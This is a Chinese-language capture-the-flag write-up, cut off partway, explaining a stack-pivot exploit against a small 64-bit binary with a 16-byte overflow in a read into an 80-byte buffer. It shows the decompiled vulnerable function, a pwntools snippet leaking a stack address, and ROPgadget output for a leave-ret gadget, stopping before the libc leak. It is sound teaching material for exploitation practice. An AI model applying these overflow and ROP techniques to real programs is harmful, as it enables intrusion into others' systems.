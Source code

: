 64 位动态链接的程序, 没有开 PIE 和 canary 保护, 但开了 NX 保护

###### 漏洞函数

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  while ( sub_400676() )
    ;
  return 0LL;
}

int sub_400676()
{
  char buf[80]; // [rsp+0h] [rbp-50h]

  memset(buf, 0, sizeof(buf));
  putchar('>');
  read(0, buf, 96uLL);
  return puts(buf);
}
```

read 能读入 96 位, 但 buf 的长度只有 80, 因此只能覆盖 rbp 以及 ret addr 来进行 rop 了

##### 思路

当栈溢出长度不够时，可以尝试 frame faking （栈迁移）。这就需要一个能被我们写入、知道地址的内存。这条题目的话，我们只能往栈上写入数据，所以想办法泄露栈地址。

###### leak stack addr

栈地址每次运行都不一样，需要控制程序来泄露栈地址。这条题目没有开 canary ，然后在 IDA 或者 gdb 分析 sub_400676 的栈结构，发现 buf 覆盖 80 字节之后，就到 rbp 顶，读入的 read 也没有给字符串末尾接上 ``\x00`` 的结束符，所以可以将 ebp 的值泄露出来。

ebp 的值是上一个栈的栈顶，泄露之后通过偏移计算得到 buf 写入的栈地址。gdb 调试后，得出偏移为 0x70

```python
# leak ebp
p.sendafter(">",'A'*0x50)   
stack = u64(p.recvuntil("\x7f")[-6: ].ljust(8, '\0'))-0x70
log.info("stack:"+hex(stack))
```

###### leak libc

然后就是构造 ROP 链，因为可控写入是在栈上，所以构造如下：

```
ROP|padding|fake ebp|leave ret addr|
```

``leave ret addr`` 就用 ROPgadget 找一下：

```shell
~$ ROPgadget --binary over.over --only 'leave|ret'
Gadgets information
============================================================
0x00000000004006be : leave ; ret
0x0000000000400509 : ret
0x00000000004007d0 : ret 0xfffe
```
